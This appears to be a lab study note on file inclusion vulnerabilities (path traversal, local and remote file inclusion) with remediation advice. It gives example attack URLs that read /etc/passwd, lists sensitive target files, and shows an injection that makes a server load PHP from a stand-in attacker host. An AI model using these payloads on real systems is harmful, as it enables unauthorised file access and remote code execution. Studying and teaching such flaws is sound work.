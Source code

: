 ```yaml
---
date: 2024-09-20
tags: 
      - Cybersecurity
---
```

# File Inclusion
## **File Inclusion Vulnerabilities**

## Overview  
- **Objective**: Understand and exploit file inclusion vulnerabilities, including Local File Inclusion (LFI), Remote File Inclusion (RFI), and directory traversal.  
- **Content**: The room provides practical examples, hands-on challenges, and discusses the risks and remediation of these vulnerabilities.

## How File Inclusion Works  
- **File Access**: Web applications often request access to files using parameters in the URL. For example:

**# Path Traversal (Directory Traversal) Summary**

Path traversal is a web security vulnerability that allows attackers to access sensitive files and directories on a server by manipulating the application's URL. By exploiting this vulnerability, attackers can read files outside the application's root directory, such as operating system resources.

## Key Points:

- **Mechanism**: The vulnerability occurs when user input is passed to file-handling functions (e.g., `file_get_contents` in PHP) without proper validation. Attackers can use payloads like `../` (dot-dot-slash) to traverse directories.

- **Example Attack**:  
  - A typical attack URL: `http://webapp.thm/get.php?file=../../../../etc/passwd`  
  - This example attempts to access the `/etc/passwd` file by moving up the directory structure.

- **Windows Systems**: The same concept applies to Windows servers, where attackers can exploit paths like `C:boot.ini` using similar traversal techniques.

- **Common Target Files**:  
  - `/etc/passwd`: User account information.  
  - `/etc/shadow`: Password information.  
  - `/var/log/apache2/access.log`: Access logs for the web server.  
  - `C:boot.ini`: Boot options for BIOS firmware.

## Prevention:  
To mitigate path traversal vulnerabilities, developers should implement strict input validation and filtering to ensure users cannot manipulate file paths.

**Local File Inclusion**

**Local File Inclusion (LFI)** vulnerabilities occur when web applications include files based on user-controlled input without proper validation. This can allow attackers to include arbitrary files on the server, potentially leading to sensitive information disclosure or code execution.

**Common Causes:**

* Using functions like `include`, `require`, `include_once`, and `require_once` without proper input validation.  
* Lack of security awareness among developers.

**Exploitation Scenarios:**

1. **Direct Inclusion:**  
   * **Example:** `include($_GET["lang"]);`  
   * **Exploit:** `http://webapp.thm/index.php?lang=/etc/passwd`  
   * **Vulnerability:** No directory specified, and no input validation.  
2. **Directory-Based Inclusion:**  
   * **Example:** `include("languages/". $_GET['lang']);`  
   * **Exploit:** `http://webapp.thm/index.php?lang=../../../../etc/passwd`  
   * **Vulnerability:** Directory specified, but no input validation, allowing path traversal.

**Key Points:**

* LFI vulnerabilities are often caused by developer oversight.  
* Path traversal techniques are often used to exploit LFI.  
* Input validation is crucial to prevent LFI attacks.

**Additional Considerations:**

* **File Types:** The type of file included can affect the impact of the attack. For example, including a PHP file could lead to code execution.  
* **Server Configuration:** Server configuration can influence the severity of LFI vulnerabilities.  
* **Mitigation:** Proper input validation, whitelisting allowed file paths, and using relative paths can help mitigate LFI risks.

# **Remote File Inclusion**

**Remote File Inclusion (RFI)** vulnerabilities occur when web applications include files from external sources based on user-controlled input without proper validation. This can allow attackers to include malicious files hosted on external servers, potentially leading to severe consequences like Remote Command Execution (RCE).

## **Prerequisites:**

* **allow_url_fopen:** This PHP setting must be enabled for RFI to be possible.

## **Potential Consequences:**

* **Remote Command Execution (RCE):** An attacker can execute arbitrary code on the vulnerable server.  
* **Sensitive Information Disclosure:** Access to sensitive files or data.  
* **Cross-site Scripting (XSS):** Injecting malicious JavaScript into the web application.  
* **Denial of Service (DoS):** Overloading the server with requests.

## **Exploitation Process:**

1. **Host Malicious File:** The attacker hosts a malicious file on their server.  
2. **Inject Malicious URL:** The attacker injects the URL of the malicious file into the vulnerable application's input.  
3. **Server-Side Request:** The vulnerable application's server sends a request to the attacker's server to fetch the file.  
4. **File Inclusion:** The vulnerable application includes the remote file, executing its content.

## **Example:**

* **Malicious File:** `http://attacker.thm/cmd.txt` (containing PHP code)  
* **Injection:** `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`  
* **Result:** The PHP code from the malicious file is executed on the vulnerable server.

## **Mitigation:**

* **Disable allow_url_fopen:** If not necessary, disable this setting to prevent RFI.  
* **Input Validation:** Strictly validate user-controlled input to prevent malicious URLs from being included.  
* **Use Relative Paths:** Avoid using absolute paths in include functions.  
* **Restrict File Inclusion:** Limit the types of files that can be included.